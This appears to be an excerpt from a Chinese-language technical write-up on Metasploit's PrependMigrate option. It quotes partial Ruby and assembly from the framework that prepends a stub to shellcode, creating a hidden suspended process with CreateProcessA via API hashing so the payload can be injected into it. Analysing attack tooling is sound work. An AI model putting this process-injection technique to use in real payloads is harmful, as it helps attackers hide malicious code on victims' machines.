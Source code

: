 从参数的描述可知,该参数设置为true时,会自动新建一个系统进程,并将shellcode注入到新进程中,可以通过PrependMigrateProc参数指定注入到哪个系统进程中.

参数相关核心代码在 `metasploit-framework\lib\msf\core\payload\windows\prepend_migrate.rb` 文件中,这里截取部分关键代码段

```ruby
  def apply_prepend_migrate(buf)
    pre = ''

    test_arch = [ *(self.arch) ]

    if prepend_migrate?
      # Handle all x86 code here
      if test_arch.include?(ARCH_X86)
        migrate_asm = prepend_migrate(buf)
        pre << Metasm::Shellcode.assemble(Metasm::Ia32.new, migrate_asm).encode_string
      # Handle all x64 code here
      elsif test_arch.include?(ARCH_X64)
        migrate_asm = prepend_migrate_64(buf)
        pre << Metasm::Shellcode.assemble(Metasm::X64.new, migrate_asm).encode_string
      end
    end
    return pre + buf
  end
```

代码判断对应的Payload是x86还是x64

```ruby
  def prepend_migrate(buf)
    payloadsize = "0x%04x" % buf.length
    procname = datastore['PrependMigrateProc'] || 'rundll32'

    # Prepare instructions to get address of block_api into ebp
    block_api_start = <<-EOS
      call start
    EOS
    block_api_asm = <<-EOS
...
...
...
    # Prepare default exit block (sleep for a long long time)
    exitblock = <<-EOS
      ;sleep
      push -1
      push 0xE035F044           ; hash( "kernel32.dll", "Sleep" )
      call ebp                  ; Sleep( ... );
    EOS
...
...
...
      lea edi,[eax+0x60]        ; Offset of empty space for lpProcessInformation
      push edi                  ; lpProcessInformation : write processinfo here
      push eax                  ; lpStartupInfo : current info (read)
      xor ebx,ebx
      push ebx                  ; lpCurrentDirectory
      push ebx                  ; lpEnvironment
      push 0x08000004           ; dwCreationFlags CREATE_NO_WINDOW | CREATE_SUSPENDED
      push ebx                  ; bInHeritHandles
      push ebx                  ; lpThreadAttributes
      push ebx                  ; lpProcessAttributes
      push esi                  ; lpCommandLine
      push ebx                  ; lpApplicationName

      push 0x863FCC79           ; hash( "kernel32.dll", "CreateProcessA" )
      call ebp                  ; CreateProcessA( &si );

```